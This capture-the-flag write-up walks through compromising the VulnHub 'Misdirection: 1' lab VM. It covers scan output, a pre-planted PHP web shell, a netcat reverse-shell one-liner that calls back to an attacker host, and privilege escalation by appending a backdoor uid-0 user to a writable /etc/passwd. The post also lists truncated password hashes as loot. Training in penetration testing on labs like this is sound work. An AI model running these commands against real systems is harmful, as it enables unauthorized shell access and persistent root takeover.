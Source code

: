 ```yaml
---
lang: "en"
classoption: oneside
code-block-font-size: \scriptsize
geometry: "a4paper"
geometry: "margin=2cm"
header-includes:
  - \usepackage{float}
  - \floatplacement{figure}{H}
  - \usepackage{xcolor}
  - \hypersetup{breaklinks=true,
                bookmarks=true,
                pdftitle="Misdirection 1",
                pdfauthor="svachal (@7h3rAm)",
                pdfsubject='Writeup for VulnHub VM Misdirection 1',
                pdfkeywords="oscp vulnhub linux",
                colorlinks=true,
                linkcolor=cyan,
                urlcolor=blue}
  - \usepackage{fvextra}
  - \DefineVerbatimEnvironment{Highlighting}{Verbatim}{breaklines,breakanywhere=true,commandchars=\\\{\}}
  - \usepackage{mathtools}
---
```


# [[VulnHub] Misdirection: 1](https://www.vulnhub.com/entry/misdirection-1,371/)

**Date**: 11/Oct/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [vulnhub](https://github.com/7h3rAm/writeups/search?q=vulnhub&unscoped_q=vulnhub), [linux](https://github.com/7h3rAm/writeups/search?q=linux&unscoped_q=linux)  
**Tags**: [`exploit_php_webshell`](https://github.com/7h3rAm/writeups#exploit_php_webshell), [`exploit_bash_reverseshell`](https://github.com/7h3rAm/writeups#exploit_bash_reverseshell), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers), [`privesc_passwd_writable`](https://github.com/7h3rAm/writeups#privesc_passwd_writable)  

## Overview
This is a writeup for VulnHub VM [Misdirection: 1](https://www.vulnhub.com/entry/misdirection-1,371/). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:


![writeup.overview.killchain](./killchain.png)


\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Fri Oct 11 12:13:32 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.misdirection1/results/192.168.92.187/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.misdirection1/results/192.168.92.187/scans/xml/_quick_tcp_nmap.xml 192.168.92.187
Nmap scan report for 192.168.92.187
Host is up, received arp-response (0.00080s latency).
Scanned at 2019-10-11 12:13:33 PDT for 25s
Not shown: 996 closed ports
Reason: 996 resets
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ec:bb:44:ee:f3:33:af:9f:a5:ce:b5:77:61:45:e4:36 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCkS5yl+Dpb7vsMGbzAHXBYrVSUNTh4kYGh8zajM3ZujG0XHLvgkW7xJ6F/meai9IrCB5gTq7+tTsn+fqNk0cAZugz4h+vwm5ekXe5szPPHNxNUlKuNAQ0Rch9k7jT/2pWjtsE5iF6yFlh1UA2vBKqrTWVU5vrGWswdFRMWICKWiFXwl1Tv93STPsKHYoVbq74v2y1mVOLn+3JNMmRNCBFqh8Z2x+1DTep0YY8vIV325iRK5ROKCJAPeyX33uoxQ/cYrdPIS+Whs9QX0C+W343Hf2Ypq93h3/g3NNm54LvZdE6X2vTUcUHGdvK2gU+dWQOiDhCpMDv3wiEAwGlf87P5
|   256 67:7b:cb:4e:95:1b:78:08:8d:2a:b1:47:04:8d:62:87 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBM+YEivOAqHPDlFWduSuOjAjuJtfC9v/KW2uYB85gxQuibGJQZhFPcxwPEUf7UvQ/a5fr/keKYF2Kdld6gO44jY=
|   256 59:04:1d:25:11:6d:89:a3:6c:6d:e4:e3:d2:3c:da:7d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFHxbfiqinvu3cV7JoKrOF3w64zk+0N0h+/2nu+Z20Mk
80/tcp   open  http    syn-ack ttl 64 Rocket httpd 1.2.6 (Python 2.7.15rc1)
| http-methods:
|_  Supported Methods: GET POST OPTIONS
|_http-server-header: Rocket 1.2.6 Python/2.7.15rc1
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
3306/tcp open  mysql   syn-ack ttl 64 MySQL (unauthorized)
8080/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 00:0C:29:F0:F4:AE (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 11 12:13:58 2019 -- 1 IP address (1 host up) scanned in 26.69 seconds

```

2\. We start with `8080/tcp` service. There are some interesting hits from `gobuster` scan:  
``` {.python .numberLines}
http://192.168.92.187:8080/debug (Status: 301)
http://192.168.92.187:8080/shell (Status: 301)
http://192.168.92.187:8080/wordpress (Status: 301)

```

3\. Upon checking out the `/debug` url, we find that it has a PHP web shell called [p0wny-shell](https://github.com/flozz/p0wny-shell). This is a huge convenience as we can now spawn a reverse shell and get fully interactive access:  

![writeup.enumeration.steps.3.1](./screenshot00.png)  


### Findings
#### Open Ports
``` {.python .numberLines}
22/tcp    |  ssh    |  OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    |  http   |  Rocket httpd 1.2.6 (Python 2.7.15rc1)
3306/tcp  |  mysql  |  MySQL (unauthorized)
8080/tcp  |  http   |  Apache httpd 2.4.29 ((Ubuntu))
```
#### Files
``` {.python .numberLines}
http://192.168.92.187:8080/debug
```
#### Users
``` {.python .numberLines}
ssh: root, brexit
```

\newpage
## Phase #2: Exploitation
1\. We use the web shell to spawn a Bash reverse shell and catch it using a local `netcat` listener:  
``` {.python .numberLines}
nc -nlvp 443
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.92.183 443 >/tmp/f

```

![writeup.exploitation.steps.1.1](./screenshot01.png)  

![writeup.exploitation.steps.1.2](./screenshot02.png)  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
www-data@misdirection> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@misdirection>  
www-data@misdirection> uname
Linux misdirection 4.15.0-50-generic #54-Ubuntu SMP Mon May 6 18:46:08 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
www-data@misdirection>  
www-data@misdirection> ifconfig
ens33:  flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.92.187  netmask 255.255.255.0  broadcast 192.168.92.255
        inet6 fe80::20c:29ff:fef0:f4ae  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:f0:f4:ae  txqueuelen 1000  (Ethernet)
        RX packets 847916  bytes 329992802 (329.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 624984  bytes 125640093 (125.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
www-data@misdirection>  
www-data@misdirection> users
root
brexit
```

\newpage
## Phase #3: Privilege Escalation
1\. We find that the user `brexit` can run `bash` with `sudo` privileges. We also find that the `/etc/passwd` file has write permissions for group `brexit`. Combining these two, we need to first switch to user `brexit` and then modify the `/etc/passwd` file to add a new entry for a backdoor `root` user:  
``` {.python .numberLines}
sudo -l
  User www-data may run the following commands on localhost:
    (brexit) NOPASSWD: /bin/bash
ls -la /etc/passwd
  -rwxrwxr-- 1 root brexit 1617 Jun  1 01:17 /etc/passwd
sudo -u brexit bash
mkpasswd -m sha-512 password saltsalt
  $6$saltsalt$qFmFH.bQmmtXzyBY0s9v7Oicd2z4XSIecDzlB5KiA2/jctKu9YterLp8wwnSq.qc.eoxqOmSuNp2xS0ktL3nh/
echo -e "hacker:\$6\$saltsalt\$qFmFH.bQmmtXzyBY0s9v7Oicd2z4XSIecDzlB5KiA2/jctKu9YterLp8wwnSq.qc.eoxqOmSuNp2xS0ktL3nh/:0:0:hacker:/root:/bin/bash" >>/etc/passwd
su hacker

```

![writeup.privesc.steps.1.1](./screenshot03.png)  

![writeup.privesc.steps.1.2](./screenshot04.png)  

![writeup.privesc.steps.1.3](./screenshot05.png)  

![writeup.privesc.steps.1.4](./screenshot06.png)  

![writeup.privesc.steps.1.5](./screenshot07.png)  

![writeup.privesc.steps.1.6](./screenshot08.png)  

![writeup.privesc.steps.1.7](./screenshot09.png)  

2\. We can view the file `/root/root.txt` to get the flag and complete the challenge:  
``` {.python .numberLines}
cat /root/root.txt

```

![writeup.privesc.steps.2.1](./screenshot10.png)  


\newpage

## Loot
### Hashes
``` {.python .numberLines}
root:$6$PnbVvEMS$OcseJT8lZRrgrW1JBpHJ252SPRxS6Rkh3oVBkrbRBZgHBD1wArL6FcyO5daqaon7waFKwSqbg5fIjFgzU........................
brexit:$6$51s7qYVw$XbTfXEV2acHRp9vmA7VTxO35OLK9EGZJzDGF9nYaukD3eppHsn2P1ESMr.9rRn/YYO70uiUskfkWP0LyR........................
```
### Flags
``` {.python .numberLines}
0d2c6222bfdd3701e0fa12a9a.......
```

## References
[+] <https://www.vulnhub.com/entry/misdirection-1,371/>  
[+] <https://download.vulnhub.com/media/misdirection/Misdirection-Walkthrough.pdf>  
